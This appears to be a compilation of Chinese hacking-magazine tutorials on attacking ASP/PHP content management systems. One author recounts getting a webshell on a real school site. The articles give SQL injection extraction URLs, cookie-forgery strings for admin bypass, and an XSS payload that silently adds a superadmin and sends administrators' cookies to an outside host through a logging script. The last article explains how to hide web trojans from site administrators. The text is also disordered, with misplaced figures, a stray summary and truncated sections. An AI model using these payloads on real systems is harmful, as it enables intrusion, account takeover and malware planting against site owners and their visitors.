由于这次主要说的是从后台提权的问题，所以前面的入侵过程就简单地说说了。学校更换后的网站可以说是比较完美的，提交的参数除了数字外，其他类型的都被过滤掉了。精品课程部分用的是尘缘系统，不过网上公布的漏洞全补上了。琢磨网站半个月后，我在一个很隐蔽的地方发现了一个注入点，用domain得到了账号和密码，不过还没有后台登录地址，默认数据库也被改了。于是翻出minibrowser构造了一个Cookies，如图1所示，通过欺骗绕过后台登录页面，直接进入了管理页面 `admin/system.asp`，如图2所示。


图1


图2

到了这里就该说说尘缘的后台提权问题了，翻来翻去找遍了百度也没找到相关的方法。上传漏洞被管理员堵死了，看来也没有什么可以插入一句话马的地方，没办法了，就只有从尘缘的源代码入手了。通读了整篇代码之后发现，`createasp.asp` 这个页面直接用FSO导出前N个新闻记录的标题到 `LastNewsXP.asp` 这个页面……

`LastNewsXP.asp` 这个页面，而偏偏在添加文章的那个页面对添加的内容没有做任何过滤，如图3所示。呵呵，这也就意味着我们可以添加一篇标题含有一句话马的文章，然后运行 `createasp.asp` 这个页面，如图4所示，此时 `LastNewsXP.asp` 这个页面就会随着更新，而我们的一句话马就会被写入 `LastNewsXP.asp` 文件，然后我们用一句话客户端连接根目录下的 `LastNewsXP.asp` 文件就可以写入相关的Shell了。另外，这个页面没有链接到任何管理页上，不知道沸腾工作室特意做出这个也没是干什么用的，呵呵！至此，后台提权的问题就算是说完了，我就是用这个漏洞得到学校网站的Shell的！


图3


图4

最后再简单说说这个漏洞的防护措施。一是对添加的文章标题过滤英文状态的尖括号“<>”，这样就算入侵者得到管理员密码也上传不了Shell；二是对所有页面进行防注入处理，这样入侵者就找不到注入点了。

- 适合读者：入侵爱好者
- 前置知识：JavaScript

## Cookies
### 高级窃取法之Ajax


文/图：电子徒弟（blackhat-forums）

当我们生活在现代结实的建筑下时，Ajax正在改变着Web的工作方式，它通过Javascript和XML为我们带来了直逼Web的桌面式的功能。换句话说，Ajax（Asynchronous Javascript and XML）去除了通过DHTML特效带来的烦琐的页面更新和链接，并将其变成十分有趣的桌面式应用程序。Ajax不仅是一项技术，而且更不是单纯的技术的集合，当这些技术一起使用时，它提供了强有力的框架。本文将试着教大家如何驾驭这项技术来提高Cookies的窃取能力。本文也是个对Ajax不错的介绍，因为它被用在一个独特并有趣的地方。在阅读本文前，大家应该明白，Ajax只在Cookie窃取时有用，如果它绕过了站点的验证系统。为了使它起作用，目标站点必须有一些私有消息（PM）系统来接收Cookies本身，这将有效地绕过浏览器的所有验证来发送请求。

### 通过Ajax窃取Cookie？关键点！

大家可能很想知道Ajax是怎样帮助我们更隐秘地窃取Cookie的。首先，这种通过Ajax查找的性质决定了它能够以XMLHttpRequest的形式向服务器发送任意请求。从本质上看，它可以通过使用超文本链接或者嵌在网页中的各种数据提交控件来发送这些请求。但通过使用Ajax，当一个用户点击了上述的链接时，请求被自动发送给服务器处理而不需要重定向到另一个页面，这就突破了页面更新的需要，并且把最终结果在Web中显示给用户。只要Web浏览器添加一个合适的Javascript解释器（现在使用的大部分Web浏览器都有这个功能），这些假设就都是可能的。所以，现在让我们想象一下并试用我们刚才学的Cookie窃取。比如，大部分Cookie窃取者都用Javascript的Location方法：`window.document.location="http://www.cookie窃取.com/讨论的窃密者.php"`，在执行这句后，将完全重定位到一个不同的页面而不是用户请求的。我们再用javascript url：`javascript: window.document.location="http://www.target.com"` 试一下，而这已经是老式的Cookie窃取的方法了。

接下来本文将教大家最新的关于如何利用Ajax重定向用户的请求到你选的Web页面的方法。有时，攻击者要使窃取有创造性（老的方法）并且要使页面跟用户先前请求的页面一模一样，猜一下会怎样呢？现在很多用户会怀疑他们看到的URL不是原先那个域名的URL，而是看起来更像 `http://快来吧.com/窃取.php`，当他们看到这个，我们的机会就变成了被举报，并且网络管理员也会意识到什么被窃取了，然后问题就被解决了（当然，如果是在理想世界）。使用Ajax，我们可以把数据附加在用户的Cookie当中，并悄悄地请求和发送到你想要的地方（当中也有一些不理想的地方，下面我们将会讨论它们是什么，该如何在这样的条件下运作）。最后，当用户访问像论坛这样的站点后，我们的任务就完成了，Cookie被窃取，好像什么事都没发生（至少表面上是这样）。

### 我是迷糊了，现在该如何开始呢？

在这么长的介绍之后，是时候开始编写我们的代码了，先开个头！为了达到我们的目的，我们要使Ajax与两大浏览器（Mozilla和IE）兼容。为此，我们需要一些HTTP调试器，Paros Proxy或Microsoft Fiddler就可以了，它们将会记录请求，虽然不是必需的，但对我们的工作很有用。

注意：本文将利用常见的攻击方法（跨站脚本攻击）来证明这些代码。我们要利用的是HTML中 `` 标签的 `SRC` 属性来完成我们的工作。下面的基本代码可以通过简单地修改来满足大家的需要……整的代码将在文章最后给出来。

## 前途是光明的

假设我们的任务是：渗透一个用 PHP 语言编写的、未过滤 Javascript 或其他恶意代码的、有图片个性签名的论坛，在没有人知道的情况下获得一个 Cookie。

下面让我们开始这次“旅行”，用没有危害的图像标签在 SRC 中隐藏我们的 Javascript URL（XSS 中常见的形式），具体代码如下所示。

```html

```

##### 总结

兄弟姐妹们，现在我们已经做到了利用 Ajax 窃取 Cookie 的简单而有效的方法。上面的代码只是作为例子提供的，并不是万能钥匙。比如，如果 PM 系统用的是 Post 而不是 Get 方法，或者很想用图片却没法解除它的限制呢？本文应该能使大家学会编写出更厉害的隐秘脚本的方法，至少大家应该对无须更新页面即可窃取 Cookie 有了一定的概念。

但也要知道，这种对安全性差的站点的欺骗风险也是很大的，但如果方法得当，也是很难追踪的。总之，本文是一个故事，讲了一个人结合了跨站脚本和跨站请求伪造来执行攻击的故事。如果大家回过头看这些故事里使用的代码，会发现代码是利用了 Ajax 来执行的，记住哦。

## 完整的验证代码

```html

```

适合读者：入侵爱好者

前置知识：无

## 蝶梦林许愿本

### 漏洞浅析

文/图：曾云好

蝶梦林许愿本是目前网络上使用比较多的一个许愿版，经历了几次升级，目前最新版本为 2.7。我们可以用关键字“intitle:Nothing is impossible to a willing heart! 心之所愿，无事不成! -蝶梦林许愿V2.7”来查找使用这个系统的网站。比起其他许愿系统来说，其安全性还是比较好的，但这并不代表它就没漏洞，下面就开始我们的漏洞分析之行吧。

search.asp 是许愿本的搜索模块。要实现搜索功能，自然少不了数据库的查询操作，所以这里会有参数的传递及操作。按照安全的编程习惯，只要存在参数的传递就应该对其过滤，但是在这里程序员显然没有认识到它的危害，漏洞也自然暴露出来了。其代码如下：

```asp
startTime=time()
searchType=request.Form("searchType")
word=request.Form("word")
'取得参数word的值
startTime=time()
function htmlEncode(str) '过滤函数
str=replace(str,chr(32),"&nbsp;")
str=replace(str,chr(10),"<br />")
str=replace(str,chr(13),"<br />")
htmlEncode=str
end function
%>
<!--#include file="conn.asp"-->
<%
openDB
...
if(searchType="wisher") then
    strsql="select * from wish where name like '%"&word&"%' ORDER BY date DESC"
else
    strsql="select * from wish where msg like '%"&word&"%' ORDER BY date DESC"
end if
```

```asp
end if
rs_wish.open strsql,connWish,1,1
rs_wish_total=rs_wish.recordcount
totalPage=rs_wish.pagecount
rs_wish.PageSize = 10 '每页显示记录数
splitPage=rs_wish.PageSize
filepath="index.asp"+request.ServerVariables("PATH_INFO")
```

很显然，参数 word 没有经过过滤就进行了数据库操作。虽然有过滤函数，但可能是程序员糊涂了，并没有对 word 进行过滤。利用这个漏洞，我们就可以查询到管理员的密码了。在这里，程序员对搜索的长度进行了 20 位限制：`<input name="word" type="text" id="word" maxlength="20" ... />`，以为这样就无法攻击了，其实不然。我们可以把网页下载到本地，把 maxlength 长度修改到最大，比如修改为 1000，然后在提交的时候，把提交地址由原来的相对地址改成绝对地址即可。根据这个查询语句的特殊性，在判断漏洞肯定存在时，我们应该将语句改成：`word+%' 'word+%' and 1=1 and'%'`、`word+%' and 1=2 and'%'`，当搜索的条件不符合时，就会出现如图1所示的结果。

要查询管理员的密码也很简单，比如要查询表 admin 的第一条记录，字段 username 第一个字的 ASCII 值是否为 b，那么我们就应该输入如下的查询代码：`word+%' and (select top 1 asc(mid(username,1,1)) from admin)=98 and'%%`，在 SQL 语句中就变成了 `select * from wish where name like '%word+%' and (select top 1 asc(mid(username,1,1)) from admin)=98 and'%%' ORDER BY date DESC`。


其实这里的注入也很简单，我们只要修改两个 and 之间的代码就可以了。和在 URL 中的手工注入是一模一样的。细心的朋友应该可以看到，对于这个漏洞的攻击是少不了单引号这个字符来进行数据的闭合的，所以防止这个漏洞非常的简单，只要把搜索关键字中的单引号过滤，就没有机会注入了。

在检查系统是否存在跨站漏洞时，我发现其过滤跨站攻击的函数是这样编写的。

```vb
function HTMLEncode(str)
    str=replace(str,"&","&amp;")
    str = Replace(str, ">", "&gt;")
    str = Replace(str, "<", "&lt;")
    str = Replace(str, "'", "&#39;")
    str = Replace(str, """", "&quot;")
    str=replace(str,"%0D",chr(10))
    str=replace(str,"<br />",chr(10))
    if isArray(badWord) then
        for i =0 to ubound(badWord)
            str = Replace(str,badWord(i),"*")
        next
    else
        str = Replace(str,badWord,"*")
    end if
    HTMLEncode=str
end function
```

虽然这个函数可以过滤大部分跨站的攻击，但是在特定的环境下还是可以被绕过的。

系统提供了自定义头像功能，此时就可以输入 `</img>` 来达到跨站效果。如果不可以用函数和字符串，还可以用 `</img>` 来突破，如图2所示。


而上面的函数只是转换掉 `< >` 字符，让用户不能建立自己的 HTML 标记，这是远远不够的，因为攻击者可以借助系统提供的 `<>` 来间接达到攻击效果。所以系统自己的 HTML 标记也要防范。过滤 JavaScript 和特殊字符 `&` 可以阻止用户修改标记的属性为 Script，最后通过 `"` 和空格的过滤使用户不能引发事件机制和重建其他的属性，将用户的输入限制在一个字符串内，只有这样才能从本质上把跨站漏洞杜绝。

我在上面只是简单地分析了一下某程序脚本，其搜索模块的注入漏洞还是比较严重的。程序员应该都要明白，一切漏洞的产生都是因为变量和逻辑没有考虑好而导致的，所以在写程序时要特别注意，变量一定要过滤好，而逻辑上的考虑主要是离散数学方面。只要这两方面过关了，那么系统的安全性将会大大提高。

适合读者：入侵爱好者  
前置知识：SQL语句

## 飞龙文章管理系统

### 致命漏洞分析

> 文/图 花非花 [L.S.T]


在上传漏洞盛行的时候，曾经爆出过关于飞龙文章管理系统的上传漏洞。今天，就让我们来看看这套系统另外的漏洞吧！以下内容的测试版本均为飞龙文章管理系统 v2.1 修正版。

## 注入漏洞分析和利用

漏洞出现在 user_editarticle.asp 文件（修改或者编辑文章功能的文件）中，我们先来看看存在漏洞的代码。

```asp
<%
set ArtRs=conn.execute("select * from [article] where artid='"&request("artid")&"'")
if isnumeric(request("artid")) then
    ArtID=request("artid")
    response.Cookies("ArtID")=ArtID
end if
%>
<form name="frmAnnounce" method="post" action="user_savearticle.asp?Action=Edit">
<input name="artid" type="hidden" value="<%=request("artid")%>">
```

从上面的代码来看，程序首先用 request 方法获取从客户端提交上来的数据 artid 的值，然后存入变量 artid 中，最后执行整条 SQL 语句。而在这个过程中，request("artid") 是未经过滤的。虽然后面用 isnumeric(request("artid")) 来判断 request("artid") 的值是否为数字型，如果是则存入 ArtID 的 Cookie 中，但这个貌似对获取客户端提交数据进行过滤的语句，事实上并没有尽到其功能。因为前面已经把提交的未经过滤的数据直接参与了 SQL 查询，这样，注入漏洞仍然会产生。

我们注册一个账号，然后发个帖子，再编辑这个已经发表的帖子，如图1所示。


图1

然后提交 `http://localhost/user_editarticle.asp?Action=Edit&ArtID=5%20order%20by%2010`，返回和图1一样的结果，说明参与 SQL 查询的字段大于或者等于 10 个；再改变 order by 的值为 25，返回如图2所示的结果，说明参与 SQL 查询的字段小于 25。一直改变 order by 后的值为 21 时，返回正常，order by 22 时出错，说明参与 SQL 查询的字段为 21 个。


图2

再提交 `http://localhost/user_editarticle.asp?Action=Edit&ArtID=5%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21%20from%20[user]`，其中 user 表存放所有用户，包括管理员在内。注意，这里的 user 表要用“[]”括起来，如果不用“[]”括起来，就会出现如图3所示的错误；如果注入成功，则返回如图4所示的页面。


图3


图4

和原来正常情况下的内容比起来有何变化？和图1比较一下就一目了然了。再提交 `http://localhost/user_editarticle.asp?Action=Edit&ArtID=5%20and%201=2%20union%20select%201,username,password,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21%20from%20[user]`，返回如图5所示的内容。


图5

这样，在文章标题和文章内容的文本框中，我们就得到了管理员的用户名和 MD5 加密的密码了。

## Cookie欺骗漏洞分析和利用

我们先来看看 INC/const.asp 文件中的一个函数，其代码如下所示。

```vb
sub checkFlag()
    if (request.cookies("12912")("UserName"))="" then
        response.redirect "login.asp"
    else
        if request.cookies("12912")("Flag")<>1 then
            response.write "<br><p align=center>您没有操作的权限</p>"
            response.end
        end if
    end if
end sub
```

此函数的功能是判断 request.cookies 方法获取从客户端提交上来的 Cookie 的 username 键值是否为空，如果为空则转到登录页面，再通过 Cookie 信息的 Flag 键值来判断是否具备权限。看完这个函数，再来看另一个页面 admin_left.asp 文件的一行代码：

```asp
<% if request.cookies("12912")("Flag")=1 then %>
```

这行代码的意思是通过 request.cookies 方法获取从客户端提交上来的 Cookie 值，如果 request.cookies("12912")("Flag")=1，那么就执行以后的代码，也就是输出管理功能的页面。这是后台功能，也就是管理员具备的功能。

综合上面的分析，我们可以知道，只要保证 Cookie 的 Username 键的值不为空，再保证 Flag 键的值为 1，那么我们就具备了管理员的权限了。因此，我们可以构造这样的 Cookie 信息“12912=password=huahua&UserName=admin&UserID=1&Flag=1”，其中 password 和 username 的值可以随便填写，不过 Flag 的值一定要为 1。下面要介绍的是 Cookie 欺骗过程。

我们打开老兵的 MyBrowser，我这里已经打开了首页，如图6所示，然后按下图中圈住的小球，按下之后，右边的 cookies 栏会变成白色且是可编辑状态。


我们改变 Cookies 栏的内容为 `12912=password=huahua&UserName=admin&UserID=1&Flag=1`，再改变 URL 地址，也就是 Address 栏的内容为 `http://localhost/admin_admin.asp`，再按一下右边的连接按钮，返回如图7所示。其中 admin_admin.asp 是管理首页，用来载入 admin_left.asp 文件。这样，我们不用管理员的用户名和密码就可以进入后台了。


## 获取WebShell

通过上面的两种方法，一般都可以进入管理平台的，进入管理平台就可以拿 WebShell 了。以 Cookie 欺骗进入后台拿 WebShell 为例。在后台，我们打开添加文章，就会有个上传的地方出来了，再传个 JPG 木马上去，地址就会在文章内容中显示出来，如图8所示，然后到数据库管理那里，利用备份功能还原一下我们的木马，如图9所示。按下开始备份，显示备份成功之后，物理路径就一起显示出来了，如图10所示。


再次提交 `http://localhost/databackup/huahua.asp`，我们的小马就乖乖地跑出来了，如图11所示。有了这匹小马，接下来我们想干什么，就由我们自己发挥了！


OK，文章到此就结束了，感谢大家看完我的文章，祝大家春节快乐！

适合读者：入侵爱好者

前置知识：PHP

## JTBC网站内容管理系统漏洞分析

文／图 TTFCT


在分析这套系统之前，让我们先看看官方对这套系统的介绍。JTBC网站内容管理系统是一套可对现有模块进行扩充与克隆的网站系统核心，采用 UTF-8 编码，采取语言—代码—程序相互分离的技术模式，全面使用了模板包与语言包结构，为用户的修改提供方便，网站内容的每一个角落都可以在后台予以管理，是一套非常适合用做系统建站或者进行二次开发的程序核心。

既然官方对自己的程序说得如此之好，我们就来分析一下，看它是否安全。当我下载这套程序看了后，最终发现其安全性做得不是很好，下面我们就对这套系统进行分析，找出其破绽。

```php
// 下面是插入数据库操作
$sqlstr = "insert into $ndatabase (...)
... i_cfname('author') ...
... i_get_client_ip() ...
... ii_cstr($_POST['author']) ...
... ii_get_num($_POST['sex']) ...
... ii_left(ii_cstr($_POST['topic']), 50) ...
..."
```

## 漏洞之一——跨站

### 1）跨站漏洞分析

在文件 `support\gbook\common\incfiles\module_config.inc.php` 中，第 7～51 行的代码如下。

```php
function jtb_cms_module_addcisp(){
    global $conn;
    ...
    if ($nckcode != $_POST['nckcode']) ...
    $tckstr = 'author' ...
    foreach ($tary as $key => $val){ ... }
    ...
}
```

上面的代码，我们要注意两个函数，一个是 `ii_get_client_ip()`，另一个是 `ii_cstr()`。查找 `ii_cstr()`，我们来到文件 `common\incfiles\function.inc.php`，定义此函数的代码段如下。

```php
function ii_cstr($strers)
{
    if (get_magic_quotes_gpc()) return $strers;
    // 若 magic_quotes_gpc 为 on，即返回，否则对变量进行 addslashes 处理
    else return addslashes($strers);
}
```


图3

上面的代码告诉我们，程序只对引号进行了转义处理，所以就形成了跨站漏洞。要利用这个漏洞，要求字符串在 50 个以内，不过对于简单的代码，这已经足够了。攻击方式如图1所示。


图1

我们要利用的主要是“留言人”或者“留言标题”这两个地方，这里就选择“留言标题”了，成功提交后，当我们查看自己的留言时，并没有得到预期的效果，如图2所示。但是，如果是管理员，那就不一样了。管理员进入后台后，欲对留言进行管理，将会出现如图3所示的情况。看来，程序员对于广大浏览群众比较“厚道”，但却“委屈”了自己，真是大公无私啊！不过，这可苦了用这套程序的朋友。


图2

我们再查找 `ii_get_client_ip()` 函数，来到 `common\incfiles\function.inc.php` 文件中，其第 473～478 行代码如下：

```php
function ii_get_client_ip()
{
    if($_SERVER['HTTP_X_FORWARDED_FOR'])
        return $_SERVER['HTTP_X_FORWARDED_FOR'];
    elseif($_SERVER['HTTP_CLIENT_IP'])
        return $_SERVER['HTTP_CLIENT_IP'];
    else
        return $_SERVER['REMOTE_ADDR'];
}
```

```php
return $_SERVER['HTTP_CLIENT_IP'];
// 直接取得 Server 里的 HTTP_CLIENT_IP 变量
...
else
    return $_SERVER['REMOTE_ADDR'];
```

这个漏洞可以绕过 GPC，但是 MySQL 不支持多语句，在这里只有利用这个来跨站。由于在后台只显示留言人的用户名和留言标题，这里要成功利用，我们可以覆盖 `$_POST['topic']` 变量，让它成为我们的跨站代码。这里我选择构造 `CLIENT_IP` 变量，构造的 `CLIENT_IP` 代码如下所示。

```text
'127.0.0.1',0,0,1,'','<script>alert(\'xss\')</script>','wwwwwww',0,'chinese',now())/**
```

将其插入程序中运行，就变成了如下所示的代码。

```sql
insert into jtb_support_gbook (..., jtb_gtopic, ...)
values (..., '127.0.0.1',0,0,1,'','<script>alert(\'xss\')</script>','wwwwwww',0,'chinese',now())/**, ...
```

由于后面这段代码被注释掉了，所以它不再起作用，结果我们构造的 SQL 语句就执行了，效果和图3相同。

### 2）跨站的高级运用

### A）利用 `ii_cstr()` 漏洞函数跨站

刚才我们分析了，如果利用 `ii_cstr()` 函数的漏洞，供我们输入的只有 50 个字符，要用 iframe 来实现加后台用户的话，字符肯定是不够的，所以要另辟蹊径了。很多朋友都知道挂马用 JS 更隐蔽，今天我们就用 JS 来实现加用户。在测试此漏洞前，我查看了代码，没有禁止外部提交的数据（具体代码这里就不贴出来了），所以利用跨站加用户是完全可行的，下面开始实战。

我们在“留言标题”处填入：`<script src=http://127.0.0.1/1.js></script>`，只有 43 个字符，距离 50 个字符还差 7 个，插入肯定很正常的（注意 `src=` 后面不能加引号，否则会被 `magic_quotes_gpc` 转义的，那代码就起不了作用了），如图4所示。

当我们成功提交后，在前台，代码就全部显示出来了，如图5所示。


当管理员进入后台，未点击“留言管理”之前，管理员只有一个，为 admin，如图6所示。可是，我们亲爱的管理员点击了“留言管理”之后，一个超级管理员 manager 已经悄然无息地加上了，如图7所示。


“`http://127.0.0.1/1.js`”里的内容为：

`document.writeln("<script>window.open('http://127.0.0.1/toadmin.htm','a','width=0,height=0')<\/script>");`

开始打算的是用 iframe 来配合 JS 加用户，后面测试时发现不可行，经过几次测试之后，发现 JS 配合 `window.open` 能成功利用。在 `1.js` 中，`toadmin.htm` 即为我们加管理员的 EXP，具体代码如下（已经过精简）。

```html
<body onload='GetAdmin()'>
<!-- 页面加载时实现自动提交 -->
<script language='javascript'>
function GetAdmin(){
  document.forms(0).submit();
}
</script>
<form action='http://127.0.0.1:8080/jcms/admin/user/manage.php?action=add&backurl=/jcms/admin/user/manage.php?type=add&hspan_useradd' method='post' name='form1'>
  <input type='text' name='username' size='20' value='manager'>  <!-- 用户名 -->
  <input type='password' name='password' size='20' value='test'>  <!-- 密码 -->
  <input type='hidden' name='super' value='1'>  <!-- 提升为超级管理员 -->
  <input type='hidden' name='lock' value='0'>   <!-- 0=多频，先否 -->
</form>
</body>
```

### B）利用 `ii_get_client_ip()` 函数漏洞跨站

可能还有些读者不懂该如何利用 `ii_get_client_ip()` 函数来实现，下面我们就一起来实现它。方法很简单，任意发表一条留言，利用 WsockExpert 抓包，可以得到如下的代码。

```http
POST /jcms/support/gbook/index.php?action=add HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://127.0.0.1:8080/jcms/support/gbook/index.php?type=add&...
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Maxthon)
Host: 127.0.0.1:8080
Content-Length: 165
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: jtbcms_admin[lsing]=chinese; ...
```

```text
PHPSESSID=...&ckcode=...&author=...&sex=0&qq=...&face=1&email=...&homepage=&topic=...&content=...&hidden=0&valcode=4280&submit=...
```

我们只需要在“Host: 127.0.0.1:8080”后，另起一行并加上下面的代码就可以成功利用。

```text
CLIENT-IP: 127.0.0.1, 0, 0, ' ', ' ', '<script src=http://127.0.0.1/1.js></script>', 'wwwwww', 0, 'chinese', now()/**
```

我本来担心 `<script src=http://127.0.0.1/1.js></script>` 的长度，虽然这个在程序里是限制不了的，但 `jtb_gtopic` 字段长度却有 50 个字符的限制，所以我们还是要注意一下字符个数。代码修改完后，直接用 NC 提交，得到的效果和图7一样。

其实上面的代码也不完美，虽然说我们在 `1.js` 里指定了弹出一个长宽都为 0 的窗口，但是实际上是要弹出窗口的，后来我想用 `Microsoft.XMLHTTP` 来实现，但测试时发现不能成功。

## 漏洞之二：Cookie 欺骗漏洞

在 `common\incfiles\admin.inc.php` 文件中，第 298-305 行判断用户登录的代码如下所示。

```php
function jtb_cms_islogin()
{
    global $npopedom, $ngenre;
    global $admc_name, $admc_pword, $admc_popedom;
    if (ii_isnull($npopedom)) $npopedom = $ngenre;
    if ((jtb_cms_cklogin($admc_name, $admc_pword)))
        header(Location: ii_get_actual_route(ADMIN_FOLDER));
    if ((!ii_cistr($admc_popedom, $npopedom, ',')) || $admc_pstate == 'public' || $admc_popedom == '-1')
        jtb_cms_admin_msg(ii_itake(global.lng.admin.popedom.error, 'lng'), 1);
}
```

在这段代码中，我们要注意这两个变量：`$admc_name` 和 `$admc_pword`。查看这两个变量的来源，我们来到第 228～229 行，其代码为：

```php
$admc_name  = ii_get_safecode($_COOKIE[APPNAME.'admin']['username']);
$admc_pword = ii_get_safecode($_COOKIE[APPNAME.'admin']['password']);
```

这是从 Cookie 中取得的变量值，所以就构成了 Cookie 欺骗。至于利用方法，我们可以在前面跨站的基础上再加一段代码，用于偷取管理员的 Cookie 值，这段代码，我们可以用 `Microsoft.XMLHTTP` 组件实现。用于偷取 Cookie 的代码如下所示。

```asp
<%
dim file,cookie
...
%>
```

```asp
file="cookie_"&now()&".txt"
file=replace(replace(replace(file,":",""),"/","")," ","_")
testfile=Server.MapPath(file)
girlpic=unescape(request.servervariables("query_string"))
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextfile(testfile,8,True,0)
thisfile.WriteLine(girlpic)
thisfile.close
set fs=nothing
%>
```

我们将这段代码存为 `ck.asp`，放于网站目录下，然后在 `topadmin.htm` 的最后加上如下代码。

```html
<script language="vbscript">
Set HXML = CreateObject("Microsoft.XMLHTTP")
URL="http://blog.ilitc.com/ck.asp?cookie="+escape(document.cookie)
HXML.open "Get",URL, False, "", ""
HXML.send
Set HXML = Nothing
</script>
```

这样，我们跨站就达到了双重的效果：加用户和偷取管理员 Cookie 值。利用管理员的 Cookie 值，我们是可以成功登录后台的。偷取的 Cookie 值效果如图8所示，再配合老兵的浏览器，就可以成功登录后台了，如图9所示。


图8


图9

有了后台，要得到 WebShell 就容易多了。我们只要进入“系统管理”的“文件管理”，然后点击“增加新的文件”，增加一个 PHP 文件即可得到 WebShell，如图10和图11所示。

---

适合读者：入侵爱好者、木马爱好者  
前置知识：无

## 给网挂马进行到底

文／图 传奎


话说某夜，月黑风高。一个黑得不能再黑的黑客，在 X 网站上挂上了自己苦心免杀的 Y 网马一只。小马刚刚挂上不久就被无情地咔嚓了！我们英明神勇的 Z 管理员再一次揪出了藏了又藏的小马……

废话不多说，今天就给大家介绍怎么挂马。也许你会惊讶：挂马，网上不是有流传的方法吗？iframe 和 Script 都能搞得定，怎么还有人来显摆呢？听我说，凡是挂马，最终都是能被发现的（废话！），但是如果能最大限度地躲过检查，那岂不是更妙？因为挂马也是一种艺术。

下面我就给大家介绍几个挂马的绝招，关键是隐藏。首先我们来了解一下常见的几种网页挂马方式，已经会的就直接跳过吧！

- `<iframe src="muma.htm" width=0 height=0></iframe>`
- `<script src=muma.js language=javascript></script>`
- `top.document.body.innerHTML = top.document.body.innerHTML + "\r\n<iframe src='muma.htm'></iframe>"`


图10


图11

##### 总结

在研究跨站漏洞过程中，虽然程序留给我们的空间很小，但是只要我们肯去研究、去实践，就一定会有突破方法的。最后欢迎大家和我交流共同提高。

以上是网上常见的挂马方式。挂马，讲的就是隐藏，不让对方发现；而且就算发现被挂马，也不能轻易地暴露网马的地址。怎么办呢？我们有绝招！

### 变文件后缀法

大多数情况下，我们挂马都会用到 `<script src=muma.js></script>` 和 `<iframe src=muma.htm></iframe>` 这两种方式，明眼人一看就知道有问题。我们来简单处理一下，把后缀去掉，同时加上迷惑因子。针对 Script 调用，我们将调用代码改为 `<script src=javascript></script>`，同时将调用网马的 JS 文件放在同目录下，改名为 `javascript`。是的，你没看错，网马调用的 JS 文件就是 `http://www.shadu120.com/javascript`。网马的发现难度是不是一下子增加了不少呢？

我们继续改造，调用代码使用 `<iframe src=width width=0 height=0></iframe>`，网马改名为同目录下的 `width`。当然，如果你够“阴险”、够“狡猾”，不怕骂，还可以再考虑其它更迷惑的名字。

### 变异文件后缀法

虽然这招在网上有出现过，但是对其进行总结并延伸的却没有。下面我们来突破一下。很多人都用过 `<script scr=css.css></script>` 这种模式挂过马，也就是说 Script 挂马这种方式并不依赖于文件后缀，但是你见过 `<iframe src=www.baidu.com></iframe>` 吗？今天我们就来实现它。

当然，这要有一定前提的：网马所在的服务器要在你手里，或者你有网站的 IIS 管理权限。我们知道，IIS 对受访文件的类型是根据扩展名来识别的。比如我们输入 `index.asp`，系统就会调用 `asp.dll` 来解析；输入 `index.htm`，就自动解释为 HTML 代码；如果是 exe 文件，则直接提示下载。由此触发了我的灵感，何不构造一个自己需要的后缀呢？打开 IIS 管理器，找到网站，点右键看“属性”……性->HTTP头->文件类型”，新建文件扩展名`.com`，文件类型为`text/html`，点击确定后，这个扩展名在网站上就可以使用了，而且会被当作HTML来解析，如图1所示。

因为Windows 2003的IIS默认不支持无后缀文件。打开IIS管理器，找到“计算机”点右键看属性，再选择MIME类型，新建一个扩展名`.*`，类型填写为`text/html`或`application/postscript`，确定后IIS 6.0就支持无后缀文件了，具体操作如图4所示。


图1


图4

接下来，我们进行挂马！在`www.shadu120.com`网站目录下找到要插入代码的网页`index.html`，加入代码`<iframe src=www.shadu120.com></iframe>`。图2大家看懂了吧？就是建一个和网站的名字一样的文件来做网马。刷新`http://www.shadu120.com`，哇！网马乖乖地出来了，如图3所示。哪个管理员会想到“src=”后面自己网站的域名居然会是个网马呢？哈哈！

OK，下一步我们在网站目录放一个网马，名字改为“□”（注意：□表示中文全角空格！），然后将代码`<iframe src= ></iframe>`（注意等号后面是一个中文全角空格）插入到`index.html`文件中。


图2

现在在浏览器里输入`http://www.shadu120.com/`，哈哈，看到了什么？或者直接输入`http://www.shadu120.com/□`，也可以马上看到效果！如图5所示。


图5

## 无文件名法

这是最后的绝招！这里说的无文件名并不是指网马没有文件名，而是我们给网马起一个看不见的文件名。嘿嘿，既然黑，那就黑到底吧！Windows 2000的IIS不需要额外配置。这里就以Windows 2003为例。


图3

另外，Windows下的文件名也可以包含“=”，于是上面这段代码自然就产生了`<iframe src= = ></iframe>`的变形，建一个文件名为“=”的文件作为网马，一样能迷惑管理员的眼睛。

最后再给大家介绍一个细节性的技巧。挂马的时候，最好使用JavaScript修改一下浏览器状态栏的信息，免得调用网马的时候被看到蛛丝马迹。当然，如果你采用的是“无文件名”法，这步可以省略。

网络安全无极限，更多的东西需要我们去探索和突破。希望大家在新的一年里不断努力，继续发挥想象，在有限的空间里打造属于自己的网络安全！

- 适合读者：入侵爱好者  
- 前置知识：ASP

## Cookies欺骗入侵Cnmai二手信息发布系统


文／图 iamgod

Cnmai二手信息发布系统是西安二手网开发的专业二手交易系统，功能多、使用比较广泛，官方最高版本以800元的价格出售该程序，如图1所示。但通过我对该程序的检测来看，其安全性就不敢恭维了，请大家往下看。

| 程序介绍 |
|---|
| 最新的4.68版本：800元（送200M高速空间） |
| 演示地址：http://2s.cnmai.com/468 |
| 4.6版本：500元（送200M高速空间） |
| 演示地址：http://2s.cnmai.com/46 |
| 4.0版本：200元（送100M高速空间） |
| 演示地址：http://2s.cnmai.com/40 |

图1

```asp
set rs=conn.execute("select count(id) from [xinxi] where username='"&username&"'")
...
set rs=server.createobject("adodb.recordset")
sql = "select * from [user] where username='"&username&"'"
rs.open sql,conn,1,1
```

从以上的代码中，我们可以看出，当用户从login.asp中登录后，程序就创建了和用户相关的Cookies，在user.asp中，通过Cookie来获得用户名，以此用户名来检索数据库。但是，Cookie是在客户端创建的，同样也是可以在客户端修改的，所以前后就出现了Cookies欺骗。

我们再来看一下后台程序中的admin_chklogin.asp、cookies.asp和cookies1.asp，这三个文件验证了用户是否有权进入后台，以及是否是特级管理员。

